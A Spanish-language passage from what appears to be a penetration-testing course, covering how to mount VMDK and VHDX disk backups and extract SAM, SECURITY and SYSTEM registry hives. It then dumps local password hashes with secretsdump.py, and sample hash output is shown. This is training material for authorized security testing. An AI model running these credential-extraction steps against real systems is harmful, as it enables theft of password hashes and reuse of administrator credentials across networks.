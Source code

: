 Si encontramos alguno de estos tres archivos, tenemos opciones para montarlos en nuestras cajas de ataque Linux o Windows locales. Si podemos montar una unidad compartida desde nuestra caja de ataque Linux o copiar uno de estos archivos, podemos montarlos y explorar los varios archivos y carpetas del sistema operativo como si estuviéramos conectados a ellos usando los siguientes comandos.

### Mount VMDK on Linux

```r
guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmdk
```

### Mount VHD/VHDX on Linux

```r
guestmount --add WEBSRV10.vhdx  --ro /mnt/vhdx/ -m /dev/sda1
```

En Windows, podemos hacer clic derecho en el archivo y elegir `Mount`, o usar la utilidad `Disk Management` para montar un archivo `.vhd` o `.vhdx`. Si lo preferimos, podemos usar el cmdlet de PowerShell [Mount-VHD](https://docs.microsoft.com/en-us/powershell/module/hyper-v/mount-vhd?view=windowsserver2019-ps). Independientemente del método, una vez que hacemos esto, el virtual hard disk aparecerá como una unidad con letra que luego podemos explorar.

![image](https://academy.hackthebox.com/storage/modules/67/mount.png)

Para un archivo `.vmdk`, podemos hacer clic derecho y elegir `Map Virtual Disk` desde el menú. A continuación, se nos pedirá que seleccionemos una letra de unidad. Si todo sale según lo planeado, podemos explorar los archivos y directorios del sistema operativo objetivo. Si esto falla, podemos usar VMWare Workstation `File --> Map Virtual Disks` para mapear el disco en nuestro sistema base. También podríamos agregar el archivo `.vmdk` a nuestra VM de ataque como un virtual hard drive adicional, y luego acceder a él como una unidad con letra. Incluso podemos usar `7-Zip` para extraer datos de un archivo `.vmdk`. Esta [guía](https://www.nakivo.com/blog/extract-content-vmdk-files-step-step-guide/) ilustra muchos métodos para acceder a los archivos en un archivo `.vmdk`.

### Retrieving Hashes using Secretsdump.py

¿Por qué nos interesa un virtual hard drive (especialmente Windows)? Si podemos localizar una copia de seguridad de una máquina en vivo, podemos acceder al directorio `C:\Windows\System32\Config` y descargar los registros `SAM`, `SECURITY` y `SYSTEM`. Luego, podemos usar una herramienta como [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/impacket/examples/secretsdump.py) para extraer los password hashes para usuarios locales.

```r
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL

Impacket v0.9.23.dev1+20201209.133255.ac307704 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x35fb33959c691334c2e4297207eeeeba
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)

<SNIP>
```

Podríamos tener suerte y recuperar el local administrator password hash para el sistema objetivo o encontrar un old local administrator password hash que funcione en otros sistemas en el entorno (ambos casos me han sucedido en bastantes evaluaciones).